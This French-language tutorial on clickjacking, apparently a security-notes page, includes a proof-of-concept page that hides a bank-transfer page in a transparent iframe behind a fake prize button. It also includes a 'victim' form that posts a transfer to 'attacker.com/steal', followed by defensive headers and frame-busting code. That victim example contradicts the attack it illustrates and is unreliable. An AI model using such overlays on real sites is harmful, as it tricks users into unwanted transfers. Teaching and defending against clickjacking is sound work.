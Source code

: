 # Clickjacking
## COUCHE 7

### Usurpation
### Contournement
### Observation

#### ATTAQUE = CLICKJACKING

##### CONFIDENTIALITÉ
##### INTÉGRITÉ

**Description** :
Le clickjacking consiste à tromper un utilisateur en masquant un contenu malveillant derrière un bouton ou lien légitime, souvent via une iframe invisible.

**Source** : https://owasp.org/www-community/attacks/Clickjacking
             https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
            https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/frame-ancestors

## Déroulé de l’attaque (PoC)

### 1.Cible visée
Imaginons que la cible soit une page sensible comme :  
`https://example.com/transfer-funds`

### 2.Création d’une page piégée

#### `malicious.html` (hébergée par l'attaquant)

```html
<!DOCTYPE html>
<html>
<head>
  <title>Concours gratuit !</title>
  <style>
    iframe {
      opacity: 0;
      position: absolute;
      top: 50px;
      left: 50px;
      width: 800px;
      height: 600px;
      z-index: 2;
    }
    #fake-button {
      position: absolute;
      top: 50px;
      left: 50px;
      z-index: 3;
    }
  </style>
</head>
<body>

<h1>Cliquez ici pour recevoir votre cadeau !</h1>
<button id="fake-button">Obtenir le cadeau</button>

<iframe src="https://example.com/transfer-funds" frameborder="0"></iframe>

</body>
</html>
```

### 3.Explication

L'utilisateur croit cliquer sur un bouton visible alors qu'il clique en réalité sur une action masquée dans une iframe transparente.

##Test local

### `victim.html`

```html
<!DOCTYPE html>
<html>
<head><title>Banque en ligne</title></head>
<body>
  <form action="https://attacker.com/steal" method="POST">
    <input type="hidden" name="amount" value="1000">
    <input type="hidden" name="to" value="attacker_account">
    <input type="submit" value="Transférer">
  </form>
</body>
</html>
```

##Défense

### En-têtes HTTP à ajouter sur le site cible

```http
X-Frame-Options: DENY
Content-Security-Policy: frame-ancestors 'none';
```

### Protection JavaScript

```javascript
if (top !== self) {
  top.location = self.location;
}
```
